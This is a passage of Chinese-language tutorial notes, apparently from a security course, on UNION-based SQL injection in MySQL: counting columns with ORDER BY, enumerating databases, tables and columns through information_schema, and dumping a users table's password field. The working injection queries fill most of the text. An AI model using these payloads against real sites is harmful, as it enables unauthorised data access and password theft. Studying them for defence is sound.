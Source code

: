 ```SQL
SELECT col_name(…) FROM table_name WHERE id = 1 UNION SELECT {secret_data};
```

+ 这样，联合查询就会覆盖SQL查询的结果，并借助PHP代码实现的HTML嵌入，将我们想要的信息嵌在页面里传回来！

由于联合查询前后的列数必须一致，我们也要判断原SQL查询的列数

+ 我们可以尝试构造

```SQL
SELECT col_name1, …, col_nameN FROM table_name WHERE id = 1 ORDER BY M;
```

+ $M \leq N$时，能有正常的返回，$M > N$时会报错，从而可以判断查询的列数
+ 当然，也可以一个个试

```SQL
SELECT col_name1,…, col_nameN FROM table_name WHERE id = 1 UNION SELECT 1, 2,…;
```

#### 数据获取

现在我们以及可以利用MySQL函数直接获取一些信息了

```SQL
SELECT col_name1, …, col_nameN FROM table_name WHERE id = 3 UNION SELECT DATABASE(), USER(),  "https://www.zju.edu.cn/_upload/tpl/0b/bf/3007/template3007/static/media/logo.e85b920df15a055ad9bc.png";
```

但是，由于我们不知道表名、列名，我们无法获取更多的数据

幸运的是，MySQL 的默认库`information_schema`中存放了这些信息。当然，这个技巧只能在 MySQL 中使用

+ 在MySQL中，所有的数据库名存放在`information_schema.schemata`的`schema_name`字段下

    ```SQL
    SELECT schema_name FROM information_schema.schemata;
    ```

+ 所有的表名存放在`information_schema.tables`的`table_name`字段下，可以以`table_schema`为条件筛选

    ```SQL
    SELECT table_name FROM information_schema.tables WHERE table_schema='db_name';
    ```

+ 所有的列名存放在`information_schema.columns`的`column_name`字段下，可以以`table_schema`和`table_name`为条件筛选

    ```SQL
    SELECT column_name FROM information_schema.columns WHERE table_name='table_name' AND table_schema='db_name';
    ```

可以构造
```SQL
SELECT col_name1, …, col_nameN FROM table_name WHERE id = 3 UNION SELECT group_concat(schema_name), 2, 3 FROM information_schema.schemata;
```

获取所有数据库信息，以此类推

```SQL
获取到表、列名后，可以获取其他数据。这里以users表中的passwd字段为例
SELECT col_name1, …, col_nameN FROM table_name WHERE id = 3 UNION SELECT group_concat(passwd), 2, 3 FROM users;
```
